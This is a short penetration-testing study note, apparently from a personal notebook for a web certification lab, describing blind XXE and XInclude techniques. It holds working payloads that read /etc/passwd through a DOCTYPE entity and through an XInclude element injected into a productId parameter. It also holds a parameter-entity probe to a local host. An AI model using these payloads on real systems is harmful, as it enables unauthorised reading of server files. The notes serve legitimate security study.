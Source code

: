 ![[Pasted image 20240803154522.png]]

- solved 

Shout out to Garr
https://youtu.be/mAqY3OsVuE8

---


# Web/App Professional 


## Method: Exploiting blind XXE to retrieve data via error messages

1. Search for a parameter in the application that accepts an XML input
		example: checkstock


2. Test for a "Regular Entity"

```
<!DOCTYPE anything [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
```

NOTE: if blocked then try parameter entity (can only be referenced in the DTD itself)

`<!DOCTYPE anything [ <!ENTITY % xxe SYSTEM "http://127.0.0.1:8000"> %xxe; ]>`


---


## Method: Exploiting blind XXE to retrieve data via error messages


1. if there are no XML documents in the requests > try injecting XML characters in parameters > as seen in the first parameter below

```
productId=%&storeId=1
```

2. If we get back an XML error such as "external entities are not allowed" > good chance that the XML document is on server side > here we can try using --> **XInclude**


> [!NOTE] HackTricks
> [](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#xinclude)
> 
> XInclude
> 
> When integrating client data into server-side XML documents, like those in backend SOAP requests, direct control over the XML structure is often limited, hindering traditional XXE attacks due to restrictions on modifying the `DOCTYPE` element. However, an `XInclude` attack provides a solution by allowing the insertion of external entities within any data element of the XML document. This method is effective even when only a portion of the data within a server-generated XML document can be controlled.
> 
> To execute an `XInclude` attack, the `XInclude` namespace must be declared, and the file path for the intended external entity must be specified. Below is a succinct example of how such an attack can be formulated:
> 
> ```
> productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
> ```
> 